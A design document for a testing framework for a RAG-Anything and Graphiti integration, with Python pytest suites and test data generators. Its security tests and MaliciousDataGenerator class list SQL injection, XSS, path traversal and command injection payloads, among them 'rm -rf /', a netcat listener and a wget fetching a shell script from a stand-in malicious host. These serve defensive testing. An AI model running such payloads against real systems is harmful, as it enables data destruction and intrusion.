

# Testing Architecture - RAG-Anything Enterprise Testing Framework

## Executive Summary

This document defines the comprehensive testing architecture for the RAG-Anything + Graphiti integration, designed to achieve >90% code coverage with enterprise-grade quality assurance. The architecture implements multi-layered testing strategies including unit, integration, security, performance, and end-to-end testing with automated quality gates and continuous validation.

**Testing Objectives:**
- **Quality Assurance**: Achieve >90% test coverage with comprehensive validation
- **Security Testing**: Automated security vulnerability and penetration testing
- **Performance Validation**: Continuous performance regression testing  
- **Reliability**: Ensure system reliability under various load conditions
- **Compliance**: Meet regulatory testing requirements and audit trails

## Testing Architecture Overview

### Testing Pyramid Architecture



## Unit Testing Framework

### Comprehensive Unit Testing Strategy

```python
import pytest
import asyncio
from unittest.mock import AsyncMock, MagicMock, patch
from typing import Dict, Any, List, Optional, Generator
from dataclasses import dataclass
from datetime import datetime, timedelta
import coverage
import time
import json

class TestingFramework:
    """Comprehensive testing framework with coverage tracking"""
    
    def __init__(self, config: Dict[str, Any]):
        self.config = config
        self.coverage = coverage.Coverage()
        self.test_metrics = TestMetrics()
        self.security_tester = SecurityTester()
        self.performance_tester = PerformanceTester()
        
        # Coverage targets
        self.line_coverage_target = 90.0
        self.branch_coverage_target = 85.0
        self.function_coverage_target = 95.0
        
        # Quality gates
        self.quality_gates = QualityGates(config)
    
    async def run_comprehensive_test_suite(self) -> TestResults:
        """Run complete test suite with quality validation"""
        
        results = TestResults()
        
        try:
            # Start coverage tracking
            self.coverage.start()
            
            # 1. Unit Tests
            unit_results = await self._run_unit_tests()
            results.unit_tests = unit_results
            
            # 2. Integration Tests  
            integration_results = await self._run_integration_tests()
            results.integration_tests = integration_results
            
            # 3. Security Tests
            security_results = await self.security_tester.run_security_tests()
            results.security_tests = security_results
            
            # 4. Performance Tests
            performance_results = await self.performance_tester.run_performance_tests()
            results.performance_tests = performance_results
            
            # 5. End-to-End Tests
            e2e_results = await self._run_e2e_tests()
            results.e2e_tests = e2e_results
            
            # Stop coverage tracking
            self.coverage.stop()
            self.coverage.save()
            
            # 6. Coverage Analysis
            coverage_results = await self._analyze_coverage()
            results.coverage = coverage_results
            
            # 7. Quality Gate Validation
            quality_results = await self.quality_gates.validate_all(results)
            results.quality_gates = quality_results
            
            # 8. Generate Test Report
            results.report = await self._generate_test_report(results)
            
        except Exception as e:
            results.overall_status = 'failed'
            results.error = str(e)
            await self._handle_test_failure(e, results)
        
        return results

@pytest.fixture(scope="session")
def test_configuration() -> Dict[str, Any]:
    """Test configuration with security and performance settings"""
    return {
        'database': {
            'test_db_url': 'sqlite:///:memory:',
            'isolation': 'transaction',
            'cleanup': True
        },
        'security': {
            'test_users': {
                'admin': {'permissions': ['*:*'], 'mfa_enabled': False},
                'user': {'permissions': ['read:documents'], 'mfa_enabled': False},
                'limited': {'permissions': ['read:public'], 'mfa_enabled': False}
            },
            'mock_auth': True,
            'security_scanning': True
        },
        'performance': {
            'max_response_time': 2.0,
            'max_memory_mb': 512,
            'load_test_users': 10,
            'test_duration_seconds': 60
        },
        'backends': {
            'lightrag': {'enabled': True, 'mock': True},
            'graphiti': {'enabled': True, 'mock': True}
        }
    }

@pytest.fixture(scope="session") 
async def test_environment(test_configuration):
    """Set up isolated test environment"""
    
    # Create test databases
    test_db = await create_test_database()
    
    # Set up mock services
    mock_services = MockServiceRegistry()
    await mock_services.initialize()
    
    # Create test data
    test_data = await create_test_data()
    
    yield {
        'db': test_db,
        'services': mock_services, 
        'data': test_data,
        'config': test_configuration
    }
    
    # Cleanup
    await cleanup_test_environment(test_db, mock_services)

class BackendTestSuite:
    """Comprehensive backend testing suite"""
    
    @pytest.mark.unit
    @pytest.mark.asyncio
    async def test_backend_interface_compliance(self, mock_backend_factory):
        """Test that all backends implement required interface methods"""
        
        for backend_type in [BackendType.LIGHTRAG, BackendType.GRAPHITI]:
            backend = await mock_backend_factory.create_backend(
                backend_type, self.get_test_config(backend_type)
            )
            
            # Test required methods exist
            required_methods = [
                'initialize', 'insert_document', 'query', 'get_stats',
                'health_check', 'finalize', 'validate_security_context',
                'audit_operation'
            ]
            
            for method in required_methods:
                assert hasattr(backend, method), f"Backend {backend_type} missing method {method}"
                assert callable(getattr(backend, method)), f"Method {method} not callable"
    
    @pytest.mark.unit
    @pytest.mark.asyncio
    async def test_backend_initialization(self, mock_backend_factory, test_security_context):
        """Test backend initialization with various configurations"""
        
        # Test valid configurations
        for backend_type in [BackendType.LIGHTRAG, BackendType.GRAPHITI]:
            config = self.get_test_config(backend_type)
            backend = await mock_backend_factory.create_backend(backend_type, config)
            
            await backend.initialize(config, test_security_context)
            assert backend.initialized == True
            
            # Test properties
            assert backend.backend_type == backend_type.value
            assert isinstance(backend.supports_features, list)
            assert len(backend.supports_features) > 0
    
    @pytest.mark.unit
    @pytest.mark.parametrize("backend_type", [BackendType.LIGHTRAG, BackendType.GRAPHITI])
    @pytest.mark.asyncio
    async def test_document_processing(self, backend_type, mock_backend_factory, 
                                     test_documents, test_security_context):
        """Test document processing across backends"""
        
        backend = await self._create_test_backend(backend_type, mock_backend_factory)
        
        for test_doc in test_documents:
            # Process document
            result = await backend.insert_document(test_doc, test_security_context)
            
            # Validate result
            assert result.status in ['success', 'partial']
            assert result.backend_type == backend_type.value
            assert result.document_id == test_doc.document_id
            assert result.processing_time is not None
            
            # Backend-specific validations
            if backend_type == BackendType.LIGHTRAG:
                assert result.chunks_processed >= 0
            elif backend_type == BackendType.GRAPHITI:
                assert hasattr(result, 'graphiti_specific')
                assert 'episodes_created' in result.graphiti_specific
    
    @pytest.mark.unit
    @pytest.mark.parametrize("query,expected_type", [
        ("What is machine learning?", "text"),
        ("Show me images of cats", "multimodal"),
        ("Find tables with financial data", "structured")
    ])
    @pytest.mark.asyncio
    async def test_query_processing(self, query, expected_type, mock_backend_factory,
                                   test_security_context):
        """Test query processing with different query types"""
        
        for backend_type in [BackendType.LIGHTRAG, BackendType.GRAPHITI]:
            backend = await self._create_test_backend(backend_type, mock_backend_factory)
            
            # Execute query
            result = await backend.query(query, test_security_context)
            
            # Validate result
            assert result.status == 'success'
            assert result.backend_type == backend_type.value
            assert result.query == query
            assert result.result is not None
            
            # Type-specific validation
            if expected_type == "multimodal":
                assert hasattr(result, 'multimodal_results')

class SecurityTestSuite:
    """Comprehensive security testing suite"""
    
    def __init__(self):
        self.vulnerability_scanner = VulnerabilityScanner()
        self.penetration_tester = PenetrationTester()
        self.auth_tester = AuthenticationTester()
    
    @pytest.mark.security
    @pytest.mark.asyncio
    async def test_authentication_security(self, test_environment):
        """Test authentication security controls"""
        
        auth_service = test_environment['services'].get_service('authentication')
        
        # Test valid authentication
        valid_creds = {'username': 'testuser', 'password': 'ValidPass123!'}
        result = await auth_service.authenticate_user(valid_creds, create_test_request_context())
        assert result.status == 'success'
        assert result.access_token is not None
        
        # Test invalid authentication
        invalid_creds = {'username': 'testuser', 'password': 'wrong'}
        with pytest.raises(AuthenticationError):
            await auth_service.authenticate_user(invalid_creds, create_test_request_context())
        
        # Test brute force protection
        await self._test_brute_force_protection(auth_service)
        
        # Test account lockout
        await self._test_account_lockout(auth_service)
        
        # Test password complexity
        await self._test_password_requirements(auth_service)
    
    @pytest.mark.security
    @pytest.mark.parametrize("injection_type,payload", [
        ("sql", "'; DROP TABLE users; --"),
        ("nosql", "{'$ne': null}"),
        ("xss", "<script>alert('xss')</script>"),
        ("command", "; cat /etc/passwd")
    ])
    @pytest.mark.asyncio
    async def test_injection_prevention(self, injection_type, payload, 
                                       test_environment, test_security_context):
        """Test injection attack prevention"""
        
        backend = test_environment['services'].get_service('backend')
        
        # Test query injection
        with pytest.raises(SecurityError, match="injection.*detected"):
            await backend.query(payload, test_security_context)
        
        # Test document injection
        malicious_doc = create_malicious_document(injection_type, payload)
        with pytest.raises(SecurityError):
            await backend.insert_document(malicious_doc, test_security_context)
    
    @pytest.mark.security
    @pytest.mark.asyncio
    async def test_file_upload_security(self, test_environment, test_security_context):
        """Test file upload security controls"""
        
        file_validator = test_environment['services'].get_service('file_validator')
        
        # Test malicious file detection
        malicious_files = [
            ('test.exe', b'MZ\x90\x00', 'application/x-executable'),
            ('script.js', b'<script>alert("xss")</script>', 'application/javascript'),
            ('virus.pdf', create_fake_virus_pdf(), 'application/pdf')
        ]
        
        for filename, content, content_type in malicious_files:
            result = await file_validator.validate_file_upload(
                content, filename, content_type, test_security_context
            )
            assert not result.is_valid
            assert len(result.security_violations) > 0
        
        # Test legitimate files
        legitimate_files = [
            ('document.pdf', create_test_pdf(), 'application/pdf'),
            ('data.txt', b'This is test content', 'text/plain'),
            ('image.png', create_test_png(), 'image/png')
        ]
        
        for filename, content, content_type in legitimate_files:
            result = await file_validator.validate_file_upload(
                content, filename, content_type, test_security_context
            )
            assert result.is_valid
            assert len(result.security_violations) == 0
    
    @pytest.mark.security
    @pytest.mark.asyncio
    async def test_access_control(self, test_environment):
        """Test role-based access control"""
        
        rbac = test_environment['services'].get_service('rbac')
        
        # Create test users with different roles
        admin_user = create_test_user('admin', ['admin:*', 'read:*', 'write:*'])
        regular_user = create_test_user('user', ['read:documents', 'write:documents'])
        limited_user = create_test_user('limited', ['read:public'])
        
        # Test admin permissions
        assert await rbac.check_permission(admin_user, 'admin:users')
        assert await rbac.check_permission(admin_user, 'read:confidential')
        assert await rbac.check_permission(admin_user, 'delete:documents')
        
        # Test regular user permissions
        assert await rbac.check_permission(regular_user, 'read:documents')
        assert await rbac.check_permission(regular_user, 'write:documents')
        assert not await rbac.check_permission(regular_user, 'admin:users')
        assert not await rbac.check_permission(regular_user, 'read:confidential')
        
        # Test limited user permissions
        assert await rbac.check_permission(limited_user, 'read:public')
        assert not await rbac.check_permission(limited_user, 'read:internal')
        assert not await rbac.check_permission(limited_user, 'write:documents')
    
    @pytest.mark.security
    @pytest.mark.asyncio
    async def test_audit_logging(self, test_environment, test_security_context):
        """Test comprehensive audit logging"""
        
        audit_logger = test_environment['services'].get_service('audit_logger')
        backend = test_environment['services'].get_service('backend')
        
        # Perform operations that should be audited
        test_doc = create_test_document()
        await backend.insert_document(test_doc, test_security_context)
        await backend.query("test query", test_security_context)
        await backend.get_stats(test_security_context)
        
        # Verify audit logs
        logs = await audit_logger.get_logs(
            start_time=datetime.utcnow() - timedelta(minutes=5),
            end_time=datetime.utcnow()
        )
        
        assert len(logs) >= 3  # At least 3 operations logged
        
        # Verify log structure
        for log in logs:
            assert log.event_id is not None
            assert log.user_id == test_security_context.user_id
            assert log.operation in ['insert_document', 'query', 'get_stats']
            assert log.timestamp is not None
            assert log.ip_address is not None

class PerformanceTestSuite:
    """Comprehensive performance testing suite"""
    
    def __init__(self):
        self.load_tester = LoadTester()
        self.stress_tester = StressTester()
        self.memory_profiler = MemoryProfiler()
    
    @pytest.mark.performance
    @pytest.mark.asyncio
    async def test_response_time_requirements(self, test_environment, test_security_context):
        """Test response time requirements across operations"""
        
        backend = test_environment['services'].get_service('backend')
        performance_thresholds = {
            'insert_document': 5.0,  # seconds
            'query': 2.0,
            'get_stats': 1.0
        }
        
        # Test document processing performance
        test_doc = create_test_document()
        start_time = time.time()
        result = await backend.insert_document(test_doc, test_security_context)
        duration = time.time() - start_time
        
        assert result.status == 'success'
        assert duration < performance_thresholds['insert_document']
        
        # Test query performance
        start_time = time.time()
        query_result = await backend.query("test query", test_security_context)
        duration = time.time() - start_time
        
        assert query_result.status == 'success'
        assert duration < performance_thresholds['query']
        
        # Test stats performance
        start_time = time.time()
        stats_result = await backend.get_stats(test_security_context)
        duration = time.time() - start_time
        
        assert duration < performance_thresholds['get_stats']
    
    @pytest.mark.performance
    @pytest.mark.asyncio
    async def test_concurrent_load(self, test_environment, test_security_context):
        """Test system under concurrent load"""
        
        backend = test_environment['services'].get_service('backend')
        concurrent_users = 50
        operations_per_user = 10
        
        async def user_simulation():
            """Simulate user operations"""
            operations = []
            for i in range(operations_per_user):
                if i % 3 == 0:
                    # Query operation
                    op = backend.query(f"test query {i}", test_security_context)
                elif i % 3 == 1:
                    # Document processing
                    test_doc = create_test_document(f"test_doc_{i}")
                    op = backend.insert_document(test_doc, test_security_context)
                else:
                    # Stats operation
                    op = backend.get_stats(test_security_context)
                
                operations.append(op)
            
            return await asyncio.gather(*operations, return_exceptions=True)
        
        # Run concurrent user simulations
        start_time = time.time()
        user_tasks = [user_simulation() for _ in range(concurrent_users)]
        results = await asyncio.gather(*user_tasks, return_exceptions=True)
        total_duration = time.time() - start_time
        
        # Analyze results
        successful_operations = 0
        failed_operations = 0
        
        for user_results in results:
            if isinstance(user_results, Exception):
                failed_operations += operations_per_user
            else:
                for op_result in user_results:
                    if isinstance(op_result, Exception):
                        failed_operations += 1
                    else:
                        successful_operations += 1
        
        total_operations = concurrent_users * operations_per_user
        success_rate = successful_operations / total_operations
        
        # Performance assertions
        assert success_rate >= 0.95  # 95% success rate
        assert total_duration < 60.0  # Complete within 60 seconds
        
        # Throughput calculation
        throughput = total_operations / total_duration
        assert throughput >= 10.0  # At least 10 operations per second
    
    @pytest.mark.performance
    @pytest.mark.asyncio
    async def test_memory_usage(self, test_environment, test_security_context):
        """Test memory usage under various loads"""
        
        backend = test_environment['services'].get_service('backend')
        initial_memory = self.memory_profiler.get_memory_usage()
        max_memory_limit = 1024  # MB
        
        # Process multiple documents
        documents = [create_large_test_document() for _ in range(10)]
        
        for doc in documents:
            await backend.insert_document(doc, test_security_context)
            current_memory = self.memory_profiler.get_memory_usage()
            memory_increase = current_memory - initial_memory
            
            assert memory_increase < max_memory_limit, f"Memory usage {memory_increase}MB exceeds limit {max_memory_limit}MB"
        
        # Memory should stabilize after processing
        await asyncio.sleep(2)  # Allow garbage collection
        final_memory = self.memory_profiler.get_memory_usage()
        memory_growth = final_memory - initial_memory
        
        # Memory growth should be reasonable
        assert memory_growth < max_memory_limit / 2  # Less than 50% of limit

class IntegrationTestSuite:
    """Comprehensive integration testing suite"""
    
    @pytest.mark.integration
    @pytest.mark.asyncio
    async def test_end_to_end_document_workflow(self, test_environment):
        """Test complete document processing workflow"""
        
        facade = test_environment['services'].get_service('facade')
        security_context = create_test_security_context()
        
        # 1. Process document with LightRAG
        lightrag_result = await facade.process_document(
            "test_document.pdf", BackendType.LIGHTRAG, security_context=security_context
        )
        assert lightrag_result.status == 'success'
        
        # 2. Process same document with Graphiti
        graphiti_result = await facade.process_document(
            "test_document.pdf", BackendType.GRAPHITI, security_context=security_context
        )
        assert graphiti_result.status == 'success'
        
        # 3. Query both backends
        test_query = "What is the main topic of the document?"
        
        lightrag_query_result = await facade.query(
            test_query, BackendType.LIGHTRAG, security_context=security_context
        )
        graphiti_query_result = await facade.query(
            test_query, BackendType.GRAPHITI, security_context=security_context
        )
        
        assert lightrag_query_result.status == 'success'
        assert graphiti_query_result.status == 'success'
        
        # 4. Compare results (both should provide meaningful responses)
        assert len(lightrag_query_result.result) > 0
        assert len(graphiti_query_result.result) > 0
        
        # 5. Get statistics from both backends
        lightrag_stats = await facade.get_backend_stats(BackendType.LIGHTRAG)
        graphiti_stats = await facade.get_backend_stats(BackendType.GRAPHITI)
        
        assert lightrag_stats.document_count >= 1
        assert graphiti_stats.document_count >= 1
    
    @pytest.mark.integration
    @pytest.mark.asyncio
    async def test_cross_backend_consistency(self, test_environment):
        """Test consistency across different backends"""
        
        facade = test_environment['services'].get_service('facade')
        security_context = create_test_security_context()
        
        # Process identical documents with both backends
        test_documents = [
            create_test_document("doc1", "This is about machine learning and AI."),
            create_test_document("doc2", "Python programming tutorial for beginners."),
            create_test_document("doc3", "Data science methodologies and practices.")
        ]
        
        for doc in test_documents:
            # Process with both backends
            lightrag_result = await facade.process_document_object(
                doc, BackendType.LIGHTRAG, security_context=security_context
            )
            graphiti_result = await facade.process_document_object(
                doc, BackendType.GRAPHITI, security_context=security_context
            )
            
            assert lightrag_result.status == 'success'
            assert graphiti_result.status == 'success'
        
        # Query related topics
        queries = [
            "What is machine learning?",
            "How to learn Python?", 
            "What is data science?"
        ]
        
        for query in queries:
            lightrag_result = await facade.query(
                query, BackendType.LIGHTRAG, security_context=security_context
            )
            graphiti_result = await facade.query(
                query, BackendType.GRAPHITI, security_context=security_context
            )
            
            assert lightrag_result.status == 'success'
            assert graphiti_result.status == 'success'
            
            # Both should return relevant results
            assert lightrag_result.metadata['total_results'] > 0
            assert graphiti_result.metadata['total_results'] > 0

class QualityGates:
    """Automated quality gates for continuous integration"""
    
    def __init__(self, config: Dict[str, Any]):
        self.config = config
        self.coverage_threshold = config.get('coverage_threshold', 90.0)
        self.security_threshold = config.get('security_threshold', 0)
        self.performance_threshold = config.get('performance_threshold', 2.0)
    
    async def validate_all(self, test_results: 'TestResults') -> Dict[str, Any]:
        """Validate all quality gates"""
        
        gates = {
            'coverage_gate': await self._validate_coverage_gate(test_results.coverage),
            'security_gate': await self._validate_security_gate(test_results.security_tests),
            'performance_gate': await self._validate_performance_gate(test_results.performance_tests),
            'reliability_gate': await self._validate_reliability_gate(test_results)
        }
        
        # Overall gate status
        gates['overall_passed'] = all(gate['passed'] for gate in gates.values())
        
        return gates
    
    async def _validate_coverage_gate(self, coverage_results: Dict[str, Any]) -> Dict[str, Any]:
        """Validate code coverage requirements"""
        
        line_coverage = coverage_results.get('line_coverage', 0)
        branch_coverage = coverage_results.get('branch_coverage', 0) 
        function_coverage = coverage_results.get('function_coverage', 0)
        
        passed = (
            line_coverage >= self.coverage_threshold and
            branch_coverage >= 85.0 and  # 85% branch coverage requirement
            function_coverage >= 95.0    # 95% function coverage requirement
        )
        
        return {
            'passed': passed,
            'line_coverage': line_coverage,
            'branch_coverage': branch_coverage,
            'function_coverage': function_coverage,
            'requirements': {
                'line_coverage_min': self.coverage_threshold,
                'branch_coverage_min': 85.0,
                'function_coverage_min': 95.0
            },
            'message': 'Coverage gate passed' if passed else 'Coverage requirements not met'
        }
    
    async def _validate_security_gate(self, security_results: Dict[str, Any]) -> Dict[str, Any]:
        """Validate security testing requirements"""
        
        vulnerabilities = security_results.get('vulnerabilities', [])
        high_severity_count = len([v for v in vulnerabilities if v.get('severity') == 'high'])
        critical_severity_count = len([v for v in vulnerabilities if v.get('severity') == 'critical'])
        
        passed = critical_severity_count == 0 and high_severity_count <= self.security_threshold
        
        return {
            'passed': passed,
            'total_vulnerabilities': len(vulnerabilities),
            'critical_vulnerabilities': critical_severity_count,
            'high_vulnerabilities': high_severity_count,
            'message': 'Security gate passed' if passed else f'Security vulnerabilities found: {critical_severity_count} critical, {high_severity_count} high'
        }
    
    async def _validate_performance_gate(self, performance_results: Dict[str, Any]) -> Dict[str, Any]:
        """Validate performance requirements"""
        
        avg_response_time = performance_results.get('avg_response_time', 0)
        max_response_time = performance_results.get('max_response_time', 0)
        throughput = performance_results.get('throughput', 0)
        
        passed = (
            avg_response_time <= self.performance_threshold and
            max_response_time <= self.performance_threshold * 2 and
            throughput >= 10.0  # Minimum 10 operations per second
        )
        
        return {
            'passed': passed,
            'avg_response_time': avg_response_time,
            'max_response_time': max_response_time,
            'throughput': throughput,
            'requirements': {
                'max_avg_response_time': self.performance_threshold,
                'max_response_time': self.performance_threshold * 2,
                'min_throughput': 10.0
            },
            'message': 'Performance gate passed' if passed else 'Performance requirements not met'
        }

# Test Execution and Reporting

class TestOrchestrator:
    """Orchestrate comprehensive test execution"""
    
    def __init__(self):
        self.framework = TestingFramework({})
        self.reporter = TestReporter()
        self.notification_service = NotificationService()
    
    async def execute_full_test_suite(self, trigger_event: str = 'manual') -> None:
        """Execute complete test suite with reporting"""
        
        start_time = datetime.utcnow()
        
        try:
            # Execute comprehensive test suite
            results = await self.framework.run_comprehensive_test_suite()
            
            # Generate detailed report
            report = await self.reporter.generate_comprehensive_report(
                results, start_time, datetime.utcnow()
            )
            
            # Store results
            await self._store_test_results(results, report)
            
            # Send notifications
            await self._send_notifications(results, trigger_event)
            
        except Exception as e:
            # Handle test execution failure
            await self._handle_execution_failure(e, trigger_event)

class ContinuousTestingPipeline:
    """Continuous testing pipeline integration"""
    
    def __init__(self):
        self.orchestrator = TestOrchestrator()
        self.git_hooks = GitHooks()
        self.ci_integration = CIIntegration()
    
    def setup_pre_commit_hooks(self):
        """Setup pre-commit testing hooks"""
        
        hooks = [
            'run_unit_tests_fast',
            'check_code_formatting', 
            'run_security_scan_quick',
            'validate_test_coverage_delta'
        ]
        
        self.git_hooks.install_hooks(hooks)
    
    async def run_pull_request_validation(self, pr_info: Dict[str, Any]) -> Dict[str, Any]:
        """Run comprehensive validation for pull requests"""
        
        validation_results = {
            'pr_number': pr_info['number'],
            'commit_sha': pr_info['head']['sha'],
            'validation_passed': False,
            'test_results': {},
            'quality_gates': {},
            'recommendations': []
        }
        
        try:
            # Run full test suite
            test_results = await self.orchestrator.framework.run_comprehensive_test_suite()
            validation_results['test_results'] = test_results.to_dict()
            
            # Validate quality gates
            gates_passed = test_results.quality_gates['overall_passed']
            validation_results['validation_passed'] = gates_passed
            validation_results['quality_gates'] = test_results.quality_gates
            
            # Generate recommendations if validation failed
            if not gates_passed:
                recommendations = await self._generate_pr_recommendations(test_results)
                validation_results['recommendations'] = recommendations
            
        except Exception as e:
            validation_results['error'] = str(e)
            validation_results['validation_passed'] = False
        
        return validation_results

# Configuration for different testing scenarios

TESTING_CONFIGURATIONS = {
    'development': {
        'coverage_threshold': 80.0,
        'run_security_tests': True,
        'run_performance_tests': False,
        'parallel_execution': True,
        'test_data_size': 'small'
    },
    'staging': {
        'coverage_threshold': 90.0,
        'run_security_tests': True,
        'run_performance_tests': True,
        'parallel_execution': True,
        'test_data_size': 'medium'
    },
    'production': {
        'coverage_threshold': 95.0,
        'run_security_tests': True,
        'run_performance_tests': True,
        'parallel_execution': True,
        'test_data_size': 'large',
        'include_load_tests': True
    }
}

# Example pytest configuration
pytest_configuration = """
[tool:pytest]
minversion = 6.0
testpaths = tests
python_files = test_*.py
python_classes = Test*
python_functions = test_*
addopts = 
    --strict-markers
    --disable-warnings
    --tb=short
    --cov=raganything
    --cov-report=html
    --cov-report=xml
    --cov-report=term-missing
    --cov-fail-under=90
    --durations=10
    -v
markers =
    unit: Unit tests
    integration: Integration tests
    security: Security tests
    performance: Performance tests
    e2e: End-to-end tests
    slow: Slow tests (excluded from quick runs)
    requires_gpu: Tests that require GPU
    requires_network: Tests that require network access
"""
```

## Test Data Management

### Comprehensive Test Data Strategy

```python
from typing import Dict, Any, List, Optional, Generator
import json
import uuid
from datetime import datetime, timedelta
import random
import string

class TestDataManager:
    """Manage test data lifecycle and generation"""
    
    def __init__(self):
        self.data_generators = {
            'documents': DocumentDataGenerator(),
            'users': UserDataGenerator(),
            'security_contexts': SecurityContextGenerator(),
            'malicious_data': MaliciousDataGenerator()
        }
        self.cleanup_registry = []
    
    async def generate_test_dataset(self, dataset_type: str, size: str = 'medium') -> Dict[str, Any]:
        """Generate comprehensive test dataset"""
        
        sizes = {
            'small': {'documents': 10, 'users': 5, 'queries': 20},
            'medium': {'documents': 50, 'users': 20, 'queries': 100}, 
            'large': {'documents': 200, 'users': 50, 'queries': 500}
        }
        
        config = sizes.get(size, sizes['medium'])
        
        dataset = {
            'metadata': {
                'generated_at': datetime.utcnow().isoformat(),
                'size': size,
                'dataset_id': str(uuid.uuid4())
            },
            'documents': await self.data_generators['documents'].generate_batch(config['documents']),
            'users': await self.data_generators['users'].generate_batch(config['users']),
            'security_contexts': await self.data_generators['security_contexts'].generate_batch(config['users']),
            'queries': await self._generate_test_queries(config['queries']),
            'malicious_samples': await self.data_generators['malicious_data'].generate_samples()
        }
        
        # Register for cleanup
        self.cleanup_registry.append(dataset['metadata']['dataset_id'])
        
        return dataset
    
    async def cleanup_test_data(self, dataset_id: Optional[str] = None) -> None:
        """Clean up test data"""
        
        if dataset_id:
            # Clean specific dataset
            await self._cleanup_dataset(dataset_id)
            if dataset_id in self.cleanup_registry:
                self.cleanup_registry.remove(dataset_id)
        else:
            # Clean all registered datasets
            for dataset_id in self.cleanup_registry.copy():
                await self._cleanup_dataset(dataset_id)
            self.cleanup_registry.clear()

class DocumentDataGenerator:
    """Generate realistic test documents"""
    
    def __init__(self):
        self.content_templates = [
            "research_paper", "technical_manual", "business_report", 
            "legal_document", "medical_record", "financial_statement"
        ]
    
    async def generate_batch(self, count: int) -> List[Dict[str, Any]]:
        """Generate batch of test documents"""
        
        documents = []
        
        for i in range(count):
            doc_type = random.choice(self.content_templates)
            document = await self._generate_document(doc_type, i)
            documents.append(document)
        
        return documents
    
    async def _generate_document(self, doc_type: str, index: int) -> Dict[str, Any]:
        """Generate individual test document"""
        
        content_generators = {
            'research_paper': self._generate_research_paper,
            'technical_manual': self._generate_technical_manual,
            'business_report': self._generate_business_report,
            'legal_document': self._generate_legal_document,
            'medical_record': self._generate_medical_record,
            'financial_statement': self._generate_financial_statement
        }
        
        generator = content_generators.get(doc_type, self._generate_generic_document)
        content_data = await generator(index)
        
        return {
            'document_id': str(uuid.uuid4()),
            'filename': f"{doc_type}_{index}.pdf",
            'content_type': 'application/pdf',
            'file_size': random.randint(100000, 10000000),  # 100KB to 10MB
            'processed_at': datetime.utcnow(),
            'content_data': content_data,
            'security_metadata': {
                'classification': random.choice(['public', 'internal', 'confidential']),
                'contains_pii': random.choice([True, False]),
                'risk_score': random.uniform(0.0, 1.0)
            }
        }
    
    async def _generate_research_paper(self, index: int) -> Dict[str, Any]:
        """Generate research paper content"""
        
        topics = [
            "Machine Learning in Healthcare",
            "Quantum Computing Algorithms", 
            "Climate Change Impact Analysis",
            "Blockchain Technology Applications",
            "Artificial Intelligence Ethics"
        ]
        
        topic = random.choice(topics)
        
        return {
            'title': f"{topic}: A Comprehensive Study #{index}",
            'abstract': f"This paper explores {topic.lower()} through extensive research and analysis...",
            'text_chunks': self._generate_text_chunks(f"Research content about {topic}", 5),
            'images': self._generate_image_placeholders(2),
            'tables': self._generate_table_data(1),
            'equations': self._generate_equations(3),
            'references': [f"Reference {i}" for i in range(1, 11)]
        }
    
    def _generate_text_chunks(self, base_content: str, count: int) -> List[Dict[str, Any]]:
        """Generate text chunks for document"""
        
        chunks = []
        for i in range(count):
            chunk = {
                'chunk_id': str(uuid.uuid4()),
                'content': f"{base_content} - Section {i+1}. " + self._generate_lorem_ipsum(200),
                'chunk_index': i,
                'total_chunks': count,
                'start_char': i * 200,
                'end_char': (i + 1) * 200
            }
            chunks.append(chunk)
        
        return chunks
    
    def _generate_lorem_ipsum(self, word_count: int) -> str:
        """Generate lorem ipsum text"""
        
        words = [
            'lorem', 'ipsum', 'dolor', 'sit', 'amet', 'consectetur', 'adipiscing', 'elit',
            'sed', 'do', 'eiusmod', 'tempor', 'incididunt', 'ut', 'labore', 'et', 'dolore',
            'magna', 'aliqua', 'enim', 'ad', 'minim', 'veniam', 'quis', 'nostrud'
        ]
        
        return ' '.join(random.choices(words, k=word_count))

class MaliciousDataGenerator:
    """Generate malicious data for security testing"""
    
    async def generate_samples(self) -> Dict[str, List[str]]:
        """Generate various malicious data samples"""
        
        return {
            'sql_injections': [
                "'; DROP TABLE users; --",
                "1' OR '1'='1",
                "admin'--",
                "1' UNION SELECT password FROM users--"
            ],
            'xss_payloads': [
                "<script>alert('xss')</script>",
                "javascript:alert('xss')",
                "",
                "<svg onload=alert('xss')>"
            ],
            'command_injections': [
                "; cat /etc/passwd",
                "| nc -l 4444",
                "; wget http://malicious.com/shell.sh",
                "&& rm -rf /"
            ],
            'path_traversals': [
                "../../../etc/passwd",
                "..\\..\\..\\windows\\system32\\config\\sam",
                "....//....//etc/passwd",
                "%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd"
            ],
            'malicious_files': [
                {'filename': 'virus.exe', 'content': b'MZ\x90\x00\x03\x00\x00\x00'},
                {'filename': 'script.js', 'content': b'<script>malicious_code()</script>'},
                {'filename': 'exploit.pdf', 'content': self._create_malicious_pdf()},
                {'filename': 'backdoor.doc', 'content': self._create_malicious_doc()}
            ]
        }
    
    def _create_malicious_pdf(self) -> bytes:
        """Create a fake malicious PDF for testing"""
        # This is a simplified malicious PDF structure for testing
        return b'%PDF-1.4\n<< /JavaScript <script>exploit()</script> >>'
    
    def _create_malicious_doc(self) -> bytes:
        """Create a fake malicious document for testing"""
        return b'PK\x03\x04malicious_macro_content'

@pytest.fixture(scope="session")
async def test_data_manager():
    """Provide test data manager with cleanup"""
    
    manager = TestDataManager()
    yield manager
    await manager.cleanup_test_data()

@pytest.fixture
async def sample_test_documents(test_data_manager):
    """Provide sample test documents"""
    
    dataset = await test_data_manager.generate_test_dataset('documents', 'small')
    return dataset['documents']

@pytest.fixture
async def malicious_test_data(test_data_manager):
    """Provide malicious test data for security testing"""
    
    dataset = await test_data_manager.generate_test_dataset('security', 'small')
    return dataset['malicious_samples']
```

This comprehensive testing architecture provides enterprise-grade testing capabilities with >90% coverage requirements, automated security testing, performance validation, and continuous quality assurance. The multi-layered approach ensures robust validation of all system components while maintaining efficient test execution and clear quality gates.